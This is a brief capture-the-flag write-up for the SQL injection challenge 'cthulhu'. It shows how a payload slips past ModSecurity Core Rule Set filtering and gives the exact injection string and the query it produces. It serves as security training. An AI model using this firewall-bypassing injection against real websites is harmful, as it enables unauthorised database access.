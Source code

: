 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 33
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/a45d4dce-407b-416d-8625-dd9680076748)

We are provided with the SQL query:

```sql
SELECT id FROM prob_cthulhu WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

&nbsp;

## MOD Security CRS

The MOD Security Core Rule Set, is a set of regex expressions that Web Application Firewalls can use to filter traffic. In this case, out input is being filtered based on this rule set.

In order to bypass this, we can refer [this](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181)Github issue .

![2](https://github.com/Kunull/Write-ups/assets/110326359/7c4e4729-0eb9-45dd-b350-97556d0cd332)

&nbsp;

If we provide the following URI parameter:

```
?id=- -1'<@=1 OR {a 1}=1 OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_cthulhu WHERE id='-1'<@=1 OR {a 1}=1 OR '' AND pw=''
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/64228788-fb14-4d48-a302-192e1d8a2041)
